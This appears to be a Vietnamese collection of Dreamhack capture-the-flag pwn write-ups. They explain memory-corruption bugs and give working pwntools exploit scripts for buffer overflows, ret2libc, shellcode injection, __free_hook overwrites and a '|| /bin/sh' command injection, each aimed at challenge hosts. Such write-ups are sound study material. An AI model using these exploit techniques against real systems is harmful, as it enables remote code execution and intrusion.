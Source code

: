 <details>
<summary>memory_leakage </summary>
	
- Bài cho ta 1 file source và 1 file binary
- Đầu tiên mở source lên thì thấy `name` khai báo 16 byte mà khúc dưới nhập tên đủ 16 byte luôn. Do đó sẽ thiếu byte để encode null terminator => lỗi off by one. Ngoài ra cũng có biến `age` 4 byte do kiểu int
	
![](https://i.imgur.com/yWNAPgl.png)

![](https://i.imgur.com/FgHs49X.png)

- Ở khúc dưới sẽ có chỗ cho ta in tên và tuổi. Vậy ta sẽ debug xem thử thứ tự các biến thế nào để coi leak được hay không

![](https://i.imgur.com/V6GQUJp.png)

- Debug thì thấy thứ tự các biến là name -> age -> flag. Do đó ta chỉ cần cho biến age là số nào đó đủ 4 byte nào đó khác byte `/x00` là lấy được flag

- Tiếp theo kết nối với server. Đầu tiên nhập 3 để load flag. Tiếp theo chọn 1 rồi nhập tên đủ 16 byte, name đủ 4 byte khác byte `/x00`. Cuối cùng nhập 2 để leak.

![](https://i.imgur.com/ZxSGGMB.png)

</details>

<details>
<summary>rtld </summary>

- Đề cho ta file source, file libc và file binary
- Đầu tiên mở file source lên xem thử. Có hàm `get_shell` cho ta shell, ngoài ra hàm `main` leak cho ta libc và cho ta điều khiển dữ liệu của 1 địa chỉ bất kỳ.

![](https://i.imgur.com/skHYxHk.png)

- Tiếp theo ta `checksec`. Ta thấy PIE enable nên hàm `get_shell` coi như phế vì không leak được. Do đó ở đây ta sẽ sài `one_gadget`

![](https://i.imgur.com/i4KHhC9.png)

- Đề leak cho ta libc vì vậy ta cần overwrite 1 địa chỉ nào đó ở libc mà chương trình có call tới thành `one_gadget`. Đề không leak exe để tính base nên ở đây khó overwrite `.got.plt`
    
- Do đó ở đây mình cần overwrite địa chỉ libc ở chỗ mình tô vàng. Ở đây theo dreamhack thì mình cần overwrite `_rtld_global`. Đây chính là địa chỉ khi chương trình exit sẽ gọi tới.
![](https://i.imgur.com/KMu39eS.png)

- Tiếp theo mình gdb để tính offset thử.

![](https://i.imgur.com/7j34x4f.png)

- Tiếp theo sài `one_gadget`. Ở đây có địa chỉ cuối mình sài được

![](https://i.imgur.com/L0p36Ds.png)

- Cuối cùng viết script:
```python
from pwn import *
exe = ELF("rtld_patched")
libc = ELF("libc.so.6")
p = remote("host2.dreamhack.games",21781)
#p = process(exe.path)
p.recvuntil(b'stdout: ')
leak =int(p.recvline()[:-1] ,16)
libc.address = leak - 3954208
rtld = libc.address + 6229832
print(hex(libc.address))
print(hex(rtld))
p.sendlineafter(b'addr: ',str(rtld).encode() )
p.sendlineafter(b'value: ',str(libc.address + 0xf1147).encode())
p.interactive()
```
- Chạy thử và ta có flag.
</details>

<details>
<summary>seccomp </summary>
	
- Bài cho ta file source và file binary
- Đầu tiên mở source lên đọc. Tóm tắt thì bài cho ta nhập shellcode để thực thi nhưng sẽ giới hạn không cho ta syscall. Ngoài ra chương trình còn cho ta overwrite 1 địa chỉ bất kỳ.

![](https://i.imgur.com/try1jjo.png)

- Ta lên hàm syscall_filter để đọc thử
    
![](https://i.imgur.com/vXU0sVo.png)

- Ở đây mặc định chương trình sẽ set seccomp mặc định là `SECCOMP_MODE_STRICT`. Mode này chỉ cho phép syscall các hàm sau :  `read`, `write`, `_exit`.
- Ta phân tích tiếp filter của chương trình: Nó chỉ check xem nếu shellcode đang thực hiện có phải của architecture x86-64 hay không, nếu phải thì lấy syscall number, không phải thì terminate bằng sigsegv.
- Tiếp theo ta `checksec`.
![](https://i.imgur.com/pW9sQm7.png)

- Ta thấy PIE disable, mà chương trình mặc định sẽ gọi `SECCOMP_MODE_STRICT`, do đó ta tìm cách overwrite `mode` thành `SECCOMP_MODE` nào đó mà "nhẹ hơn".
- Đọc doc của linux kernel thì thấy có 2 mode mà ta có thể sài là 0 và 2. 0 tức disable luôn còn 2 là sài cái filter ở trên mình phân tích. Mà cái filter đó không có gì nguy hiểm tới shellcode của mình hết nên mình thích overwrite mode bằng 0 hay 2 là tuỳ. Ở đây mình overwrite thành 2

![](https://i.imgur.com/in6Xdk3.png)

- Tiếp theo ida tìm địa chỉ của `mode`. Ta được địa chỉ là `0x0000000000602090` tức `6299792`
![](https://i.imgur.com/WF8Of4v.png)

- Cuối cùng viết script. Đầu tiên ta overwrite `mode` thành 2, sau đó nhập shellcode cuối cùng thực thi 
```python
from pwn import *
exe = ELF("seccomp")
#p=remote("host3.dreamhack.games",21718)
p = process(exe.path)

context.update(arch='amd64',os='linux')
shell = shellcraft.sh()

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ',b'6299792')
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'shellcode: ',asm(shell))

p.sendlineafter(b'> ',b'2')
p.interactive()
```
</details>

<details>	
<summary>Welcome </summary>
	
- Ta chỉ cần kết nối và lấy flag
    
![](https://i.imgur.com/iDQVZs4.png)

</details>

<details>
<summary>basic_exploitation_000 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đầu tiên mở source xem thì thấy bị lỗi buffer overflow ở `scanf`
    
![](https://i.imgur.com/n5GB0GC.png)

- Do tắt hết các chế độ bảo vệ và trong code không có chỗ nào để lấy flag nên ta sẽ làm theo dạng ret2shell code
    
![](https://i.imgur.com/YEmF9r9.png)
    
- `scanf` không thể đọc các byte `\x09, \x0a, \x0b, \x0c, \x0d, \x20` do đó cần chọn shell cẩn thận

- Đây là shell tìm được
    
![](https://i.imgur.com/6JHxzSU.png)

- Kế tiếp ta tìm padding để overwrite ret address. Nếu tìm đúng thì ta được code như sau:
```python
from pwn import *
p = remote("host3.dreamhack.games",19166)
#p = process("./basic_exploitation_000")
p.recvuntil(b'(')
leak = int(p.recv(10).decode(),16)
print(hex(leak))
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload = shell
payload += payload.rjust(132-len(shell), b"\x90") +  p32(leak)
p.sendlineafter(b")\n", payload)
p.interactive()
```
- Chạy script trên ta sẽ có được shell

</details>

<details>
<summary>basic_exploitation_001 </summary>
	
- Đề cho ta một file source và 1 file binary

![](https://i.imgur.com/YK5Xv37.png)

- Nhìn code thì mục đích ta là lợi dụng buffer overflow để chuyển ret qua `read_flag`
    
- Do đó ta cần tìm padding rồi overwrite ret address

- Script : 
```python
from pwn import *
exe = ELF("./basic_exploitation_001")
p= remote("host3.dreamhack.games", 1576)
#p= process(exe.path)
payload = b'A'*132 + p32(exe.sym['read_flag'])
p.sendline(payload)
p.interactive()
```
- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>shell_basic </summary>
	
- Đề cho ta một file source và 1 file binary
    
- Đọc code thì thấy chương trình sẽ chạy shellcode của ta nhập vào, và nó muốn ta viết asm để write, read, không sài `execve`

![](https://i.imgur.com/gtb4Dui.png)

- Đề cho ta sẵn tên flag và trong pwntool có sẵn thư viện để cat luôn nên sài cho nhanh
    
![](https://i.imgur.com/liAisvR.png)
    
- Script: 
```python
from pwn import *
context.arch='amd64'
p=remote("host1.dreamhack.games",15482)
p.sendafter(":",asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")))
p.interactive()
```

- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>Return Address Overwrite </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì ta cần buffer overflow ở `scanf` để ret qua `get_shell`
    
![](https://i.imgur.com/FoP72KD.png)
    
- checksec thì thấy canary tắt nên bài này tìm padding overwrite bình thường là ra

![](https://i.imgur.com/N6HDEQj.png)

- Do mấy bài này dạng cơ bản nên mình không phân tích chi tiết

- Script : 
```python=
from pwn import *
exe = ELF("./rao")
p = remote("host3.dreamhack.games", 12411)
payload = b'A'*56 + p64(exe.sym['get_shell'])
p.sendlineafter(b"Input: ", payload)
p.interactive()
```
- Chạy script trên ta sẽ lấy được shell
</details>

<details>
<summary>basic_exploitation_003 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì nhận thấy có hàm `sprintf` bị lỗi format string. Hàm này copy `heap_buf` vào `stack_buf` , do trong hàm này không check có format specifier nào không nên bị lỗi này.
    
![](https://i.imgur.com/ZUdyNFB.png)

- Bài này ta có thể lợi dụng fmt để buffer overflow stack_buf hoặc sài fmt ghi địa chỉ nào đó luôn. Ở đây mình sài cách đầu tiên để overwrite ret address của main.
    
![](https://i.imgur.com/QYR5ZTb.png)

- Trừ 2 giá trị tô đỏ trên ta được offset là 256

- Script:
```python
from pwn import *

exe = ELF("basic_exploitation_003")
#p = remote("host2.dreamhack.games",13411)
p = process(exe.path)
p.sendline(b'%156c'+p32(exe.sym['get_shell']))
p.interactive()
```

</details>

<details>
<summary>out_of_bound </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/1a2kgkJ.png)

- Nhận thấy chương trình không check bound của idx nên sẽ bị lỗi out of bound cho ta thực hiện câu lệnh bất kỳ ở hàm `system`

- Ngoài ra đề cũng kêu nhập tên. Do đó mục đích ta là làm system gọi tới địa trỉ trỏ tới string `/bin/sh`. Ta sẽ làm bằng cách lợi dụng nhập tên ở name

- Do đó ta cần làm command trỏ tới name bằng cách tính offset của id: `0x0804A0AC = 4*id + 0x0804A060`. Ta được id là 19.

![](https://i.imgur.com/eGCzO2q.png)


- Phân tích ta nhận thấy khi trỏ tới name ta cần input thêm một địa chỉ trỏ tới chuỗi `/bin/sh` rồi mới tới `/bin/sh`

- Script:
```python
from pwn import *
p=remote("host3.dreamhack.games",9645)
#p =process("./out_of_bound")
payload = p32(0x0804A0AC+8)+b'\x00'*4+b'/bin/sh\x00'
p.sendafter(b'Admin name: ',payload)
p.sendafter(b'What do you want?: ',b'19')
p.interactive()
```
- Chạy script trên ta sẽ có được shell
</details>

<details>
<summary>Return to Shellcode </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/xUqhvgK.png)

- Đọc code thì thấy có thể sẽ leak canary và bị lỗi ở buffer overflow ở hàm `gets` 

- Checksec thì nhận thấy `NX disable` và đây là file x64 nên ta giải theo ret2shellcode x64
    
![](https://i.imgur.com/MWLEtJY.png)

- Đầu tiên là leak canary, ta sẽ lợi dụng buffer overflow rồi tìm padding tới canary leak. Do canary có byte 00 đầu làm ảnh hưởng tới printf nên ta sẽ leak lố qua 1 byte

![](https://i.imgur.com/K9pMdma.png)

- Ta sẽ tìm được offset là 0x61 byte. Vậy thì đầu tiên ta sẽ leak ra canary rồi sau đó overwrite ret của `main` qua address `buf` để thực hiện shellcode

- Script : 
```python
from pwn import *
p = process("./r2s")
context.arch = "amd64"
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
p.recvuntil("$rbp: ")
buflen = int(p.recvline().split()[0])
buf_cana = buflen - 8

payload = b"A"*(buf_cana + 1)
p.sendafter("Input:", payload)
p.recvuntil(payload)
leak = u64(b"\x00"+p.recvn(7))

shell = asm(shellcraft.sh())
payload = shell.ljust(buf_cana, b"A") + p64(leak) + b"A"*0x8 + p64(buf)

p.sendlineafter("Input:", payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x86 </summary>
	
- Đề cho ta 1 file source và file binary

![](https://i.imgur.com/EGKSycy.png)

- Đọc code thì nhận thấy có lỗi buffer overflow ở hàm `read`
    
- Tiếp theo ta `checksec` thì thấy dựa vào tên bài và lỗi này thì chắc chắn ret2libc x86 =)) 

![](https://i.imgur.com/1iyqyyC.png)

- Vậy thì lần đầu ta sẽ leak libc -> quay lại main -> overwrite ret main thành `system('/bin/sh')`

- Để leak libc ta overwrite ret của main theo padding sau để theo calling convention của x86 :`padding + đc plt put + ret main + đc got cần leak` (do arguments push lên stack nên không cần kiếm rop pop rdi...)

- Sau khi có libc ta làm tương tự payload sau để lấy shell: `padding + đc system + gì cũng được + đc binsh`
    
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x86_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",16434)

payload = b'a'*72 + p32(exe.plt['puts']) + p32(exe.sym['main'])+ p32(exe.got['read'])
p.send(payload)

p.recvuntil(b'a'*64)
read_leak = u32(p.recv(4))
print("leak read : ",hex(read_leak))

libc.address = read_leak-869200
#binsh = libc.address + 1806581
binsh = next(libc.search(b"/bin/sh"))
payload = b'a'*72 + p32(libc.sym['system']) + p32(binsh)+ p32(binsh)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x64 </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/QYZZRyB.png)

- Code với checksec y chang phần trước ngoại trừ đây là file x64 thôi.
- Do đó ta làm theo dạng ret2libc x64
- Dạng này thì leak libc -> về `main` -> thực thi `system` y chang phần trước ngoại trừ ta cần kiếm `pop rdi ret` gadget và thích thì kiếm `one_gadget` để lấy shell cho nhanh.
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x64_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",18845)
pop_rdi = 0x400883
payload = b'A' * 72 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) +  p64(exe.sym['main'])
p.sendline(payload)

p.recvuntil(b'A' * 64)
leak_libc = u64(p.recvline(keepends=False) + b"\x00\x00")
log.info("leak libc: " + hex(leak_libc))

libc.address = leak_libc - 456336

payload = b'A'* 72 + p64(libc.address + 0x45216)
p.sendline(payload)
p.interactive()
```
</details>

<details>
<summary>sint </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/MT2hly4.png)

- Đọc code thì thấy `size` phải trong khoảng [0,256], sau đó sẽ nhập `size-1` số vào `buf`

- Đọc manpage `read` thì nhận thấy `size-1` đó phải là số dương mà nếu ta nhập 0 sẽ dẫn đến `size-1<0` làm read nhận dạng số âm thành số dương. Do đó có lỗi bufer overflow ở `read` nếu ta nhập 0
                                                                                                     
![](https://i.imgur.com/GRBZ6j3.png)

- Ngoài ra chương trình cũng có hàm `get_shell` để lấy shell. Do đó ta cần buffer overflow để ret2get_shell 
                                                                                                       - Script:
```python=
from pwn import *
exe = ELF("sint")
p = remote("host3.dreamhack.games",12276)
#p = process(exe.path)
p.sendlineafter(b'Size: ',b'0')
p.sendlineafter(b'Data: ',b'a'*260+p32(exe.sym['get_shell']))
p.interactive()
```    
</details>

<details>
<summary>Return to Library</summary>
	
- Bài cho ta 1 file source và 1 file binary
    
- Đọc code thì thấy ta cần leak canary rồi overwrite ret address do có lỗi buffer overflow

![](https://i.imgur.com/4rmzscx.png)

- Đọc thì bài này là bài kết hợp ret2libc x64 với ret2shellcode ở trên.

- Ở đây ta không cần leak libc vì No PIE

![](https://i.imgur.com/90ushGF.png)

- Dạng cơ bản nên làm `pop rdi, ret` bình thường thôi. Mà ở đây mình chain thêm ret vì lúc đầu bị lỗi xmm

- Script : 
```python
p.sendafter('Buf: ',payload)
p.recvn(61)
canary = u64(p.recvn(8)) - 0x41

pop_rdi = 0x00400853
ret = 0x400285
binsh = 0x600874
system = 0x4005d0
payload = 'A'*0x38 + p64(canary) + 'A'*0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```
</details>
    
<details>
<summary>one_shot </summary>
	
- Bài cho ta một file binary, 1 file source, 1 file libc

- Đọc file source thì thấy đề sẽ leak libc và bị lỗi buffer overflow ở `read` 

![](https://i.imgur.com/6futpAZ.png)

- Bài không có canary nên overflow bình thường. Ngoài ra code không có chỗ để leak nên bài này ta làm ret2libc.
![](https://i.imgur.com/qTICEDD.png)

- Đề cho overflow 46 byte mà nếu tính padding + chain `pop rdi` sẽ không đủ do đó bài này muốn ta sài `one_gadget`

- Sài `one_gadget` ta được như sau:

![](https://i.imgur.com/EEjsqdh.png)

- Rồi thì ret2libc bình thường thôi.
- Script:

```python
from pwn import *
exe = ELF("oneshot_patched")
libc= ELF("libc.so.6")
#p = process(exe.path)
p= remote("host3.dreamhack.games",20854)
p.recvuntil(b'stdout: ')
std = int(p.recvline(keepends=False).decode(), 16)
libc.address = std - 3954208
payload = b'A'*24 + p64(0) + b'A'*8 + p64(libc.address+0x45216)
p.sendlineafter(b'MSG: ',payload)
p.interactive()
```
</details>
    
<details>
<summary>off_by_one_001 </summary>
	
- Đề cho ta 1 file source và 1 file binary    

- Đọc code thì thấy nếu ta làm cho `age = 0` thì có shell

![](https://i.imgur.com/sMZUFaw.png)

- Đọc hàm `read_str` thì thấy nếu ta nhập đủ 20 ký tự thì sẽ gán index thứ 20 là `\0`. Nhưng thực tế thì `ptr` khai báo là [20] tức từ index 0 ->19. Nên ở đây có lỗi off by one và vô tình ghi vào age và có shell
    
![](https://i.imgur.com/qLTMUax.png)

- Nhập thử và được shell:
    
![](https://i.imgur.com/4E8t67A.png)

</details>
    
<details>
<summary>hook </summary>
	
- Bài cho ta 1 file source, file binary và file libc.    

- Đọc source thì thấy chỗ `*(long *)*ptr = *(ptr+1);` rất đáng ngờ vì nó cho phép ta ghi. Giả sử ta có mảng a[2]={1,2} thì phép toán trên trên tương tự gán a[0]=a[1]. 

![](https://i.imgur.com/BRTXl9y.png)

- Do đó ta cần chọn địa chỉ cần ghi và ở đây là `free`. Ta muốn ghi `free` thành `one_gadget` để lấy shell. 
- Đề leak sẵn cho ta libc, one_gadget thì ta chọn từng cái, cái nào được thì sài.
    
![](https://i.imgur.com/VQL4Gb1.png)

- Chỗ `size` ta nhập số bất kỳ miễn sau đủ lớn để chứa 2 địa chỉ. Còn `data` thì ta input payload để gán địa chỉ `hook` thành địa chỉ `one_gadget`
- Script : 
```python
from pwn import *
exe = ELF("hook_patched")
libc = ELF("libc.so.6")
#p = process(exe.path)
p = remote("host3.dreamhack.games",9920)
p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
libc.address = stdout - 3954208
print(hex(libc.symbols["__free_hook"]))
p.sendlineafter(b'Size: ',b'100')
payload = p64(libc.symbols["__free_hook"]) + p64(libc.address+ 0x4526a)
p.sendlineafter(b'Data: ',payload)
p.interactive()
```

- Ở đây ta sài `__free_hook` vì nó chứa địa chỉ thực thi của `hook` 
- Chạy script trên ta sẽ có shell
</details>

<details>
<summary>rop </summary>
	
- Đề cho ta file source, file libc,file docker,file binary

- Đầu tiên ta đọc source thì thấy cũng giống mấy bài rop trên thôi =)). Bắt leak canary rồi ret2libc

![](https://i.imgur.com/VZBcygu.png)

- Vậy thì ta làm y chang bài trên là được.
- Script : 
```python
from pwn import *

exe=ELF("rop_patched")
libc = ELF("libc.so.6")

#p=process(exe.path)
p = remote("host3.dreamhack.games",17896)

'''
gdb.attach(p,
"""
b*main
c
""")
input()
'''
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))

pop_rdi_ret = 0x00000000004007f3
payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(pop_rdi_ret) + p64(exe.got['read']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendafter("Buf: ",payload)

leak = u64(p.recvn(6)+b'\x00\x00')
print(hex(leak))
libc.address =  leak - libc.sym['read']
print("libc base : ",hex(libc.address))
print("libc system " ,hex(libc.sym['system']))

p.sendafter("Buf: ",b'a')

payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(0x000000000040055e) + p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendafter("Buf: ",payload)
p.interactive()
```
</details>

<details>
<summary>off_by_one_000</summary>
	
- Đề cho ta 1 file source và 1 file binary
- Đọc file source thì thấy có lỗi off by one ở hàm `strcpy` do biến `cp_name` max là 256 ký tự (bao gồm null byte), khi ta input max 256 ký tự thì sẽ overwrite 1 byte qua `real_name`. Ngoài ra có hàm `get_shell` cho ta shell
- Để coi sự ảnh hưởng của 1 byte null đó ta sẽ debug.
    
![](https://i.imgur.com/7YBUhDZ.png)

- Ở đây trước và sau nhận thấy byte cuối của epb bị overwrite thành 00
- Khi ret address của main lúc này thành `0xffffd004` trỏ về đâu đó giữa chuỗi mình nhập vào
    
![](https://i.imgur.com/TzxgygT.png)

- Do đó khi bị off by one nó sẽ trỏ về giữa stack
    
![](https://i.imgur.com/qpkzABd.png)

- offset là 20 chia hết cho 4 vậy thì đỡ tính toán ta gửi payload là địa chỉ của get_shell (256/4) lần (do địa chỉ get_shell gồm 4 số).
- Script : 
```python
from pwn import *
exe = ELF("off_by_one_000")
p = remote("host3.dreamhack.games",15154)
#p = process(exe.path)
p.sendafter(b'Name: ',p32(exe.sym['get_shell'])*64)
p.interactive()
```
</details>
    
<details>
<summary>cmd_center </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow ở `read`
![](https://i.imgur.com/D1zAKwq.png)

- Phân tích thì hàm `strncmp` so sánh `cmd_ip` với `ipconfig`. Hàm `strncmp` sẽ so sánh đến khi 1 trong 2 gặp null terminator hoặc sâu cmd_ip khác với `ipconfig` 8 chữ cái đầu. Do đó ta sẽ lợi dụng buffer overflow để overwrite `cmd_ip` thành sâu gồm `ipconfig` + lệnh để lấy shell.
- Script: 
```python
from pwn import *
p = remote("host3.dreamhack.games",15401)
#p = process("./cmd_center")
payload = b'A'*32+b'ifconfig || /bin/sh\x00'
p.sendafter(b'Center name: ',payload)
p.interactive()
```
</details>

<details>
<summary>ssp_000 </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow và code cho ta gán địa chỉ bất kỳ. Còn có hàm `get_shell` cho ta shell
    
![](https://i.imgur.com/AgJK0xU.png)

- Checksec thì thấy canary bật , NO PIE
    
![](https://i.imgur.com/lPS5Btj.png)


- Phân tích thì nếu bị buffer overflow canary thì code sẽ gọi `stack_chk_fail`. Do đó nếu ta lợi dụng bof để gọi `stack_chk_fail` và dùng lỗi ghi địa chỉ kia để overwrite got `stack_chk_fail` thành `get_shell` thì ta sẽ có được shell
- Script : 
```python
from pwn import *
exe = ELF("ssp_000")
p= remote("host2.dreamhack.games",8718)
#p=process(exe.path)
p.sendline(b'a'*0x80)
p.sendlineafter(b'Addr : ',str(exe.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ',str(exe.sym['get_shell']))
p.interactive()
```
</details>

<details>
<summary>fho </summary>
	
- Đề cho ta 1 file source, file binary,file libc
    
- Đọc code thì thấy có lỗi bof cho ta leak stack,ngoài ra còn có phép gán địa chỉ bất kỳ.
    
![](https://i.imgur.com/uA4un6V.png)

- Checksec thì thấy full giáp
    
![](https://i.imgur.com/9osTwMz.png)

- Ý tưởng hiện tại là leak libc -> write `free` thành `system` -> nhập add là đc `/bin/sh` để lấy shell
- Đầu tiên là leak libc. Ở đây mình sẽ leak `__libc_start_call_main`. Các bước để leak thì làm như bình thường.

![](https://i.imgur.com/H5UEpm5.png)

- Leak xong thì overwrite `free` thành `system`. Để overwrite `free` thì ta cần ghi vào địa chỉ của `__free_hook` vì ở đây chứa địa chỉ thực thi của `free`. Cuối cùng thì lấy ``/bin/sh trong libc.
- Script:
```python
from pwn import *
exe = ELF("fho_patched")
libc= ELF("libc.so.6")
#p=process(exe.path)
p=remote("host3.dreamhack.games",14797)
p.sendlineafter(b'Buf: ',b'a'*72)
p.recvuntil(b'a'*72)
leak = u64(p.recv(6) + b'\x00\x00')
libc.address = leak - 137994
print(hex(libc.address))
p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(libc.sym['system']))
p.sendlineafter(b'To free: ', str(next(libc.search(b'/bin/sh'))))
p.interactive()
```
</details>
